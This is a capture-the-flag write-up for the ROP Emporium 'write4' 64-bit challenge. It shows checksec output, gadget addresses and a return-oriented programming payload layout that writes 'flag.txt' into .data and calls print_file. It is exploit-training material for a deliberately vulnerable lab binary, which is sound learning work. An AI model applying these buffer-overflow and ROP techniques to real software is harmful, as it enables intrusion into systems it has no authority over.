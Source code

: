 # write4

Similar story to the 32 bit except this is in 64 bit so the calling convention is different.

## First moves

We start by inspecting the binary.

`file`

```bash
└─$ file write4
write4: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=4cbaee0791e9daa7dcc909399291b57ffaf4ecbe, not stripped
```

`checksec`

```bash
└─$ checksec --file=write4
[*] '/home/kali/my_challenges/pwn/ropemporium/03-write4/64bit/write4'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'.'
    Stripped:   No
```

## Lay of the land

Similar to the 32 bit version, we will user GDB, readelf and ropper to get some gadgets.

Infomation gathered:

```bash
0x0000000000400510  print_file@plt
0x0000000000601028 .data

# for setting up str
0x0000000000400690: pop r14; pop r15; ret;
0x0000000000400628: mov qword ptr [r14], r15; ret;

# for passing arg
0x0000000000400693: pop rdi; ret;
```

## Attack plan

1. Overflow the buffer
2. Have "flag.txt" stored in .data using gadgets
3. return to system with pointer to flag text.

Only difference from the 32bit writeup is only the way we're going to pass the argument in step 3.

## Exploit

This time we can fit the whole string in the registers since they can take up to 8 bytes.

Payload layout will look like:

```bash
padding
+ pop_r_gadget
+ data_address
+ "flag.txt"
+ mov_gadget
+ pop_rdi_gadget
+ data_address
+ print_file_address
+ optional exit address
```

### Pwntools

Check out `exploit.py` for the involved method and `exploit_rop.py` for an auto exploit.

The alternate solution can be done in this version too.
